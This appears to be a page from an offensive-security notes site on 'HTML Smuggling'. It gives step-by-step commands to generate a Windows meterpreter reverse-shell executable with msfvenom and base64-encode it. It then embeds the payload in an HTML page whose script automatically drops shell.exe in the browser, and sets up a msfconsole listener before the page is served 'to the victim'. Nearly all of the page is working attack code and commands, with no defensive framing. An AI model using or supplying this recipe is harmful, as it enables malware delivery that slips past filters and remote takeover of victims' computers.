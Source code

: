 ```yaml
---
title: HTML Smuggling
layout: default
parent: Client Side Execution
---
```


First generate a meterpreter shell:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT -f exe -o /tmp/shell.exe
```

Then base64 the whole thing:

```bash
base64 /tmp/shell.exe
```

Remove all **line break** or **new lines**

Add the whole thing to below and serve as html (This works for all browser):

```html
<html>
<body>
<script>
function base64ToArrayBuffer(base64) {
var binary_string = window.atob(base64);
var len = binary_string.length;
var bytes = new Uint8Array( len );
for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i);
}
return bytes.buffer;
}
var file ='BASE64 PAYLOAD NEWLINE/BREAK REMOVED'
var data = base64ToArrayBuffer(file);
var blob = new Blob([data], {type: 'octet/stream'});
var fileName = 'shell.exe';
if (navigator.msSaveBlob) {
    // Use IE11's APIs
    navigator.msSaveBlob(blob, fileName)
    
   // Other browsers
  } else {
    var a = document.createElement('a');
    document.body.appendChild(a);
    a.style = 'display: none';
    var url = window.URL.createObjectURL(blob);
    a.href = url;
    a.download = fileName;
    a.click();
    window.URL.revokeObjectURL(url);
  }
</script>
</body>
</html>
```

Remember to ready the mfsconsole before serving it to the victim:

```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter_reverse_https
set lhost IP
set lport PORT
exploit
```

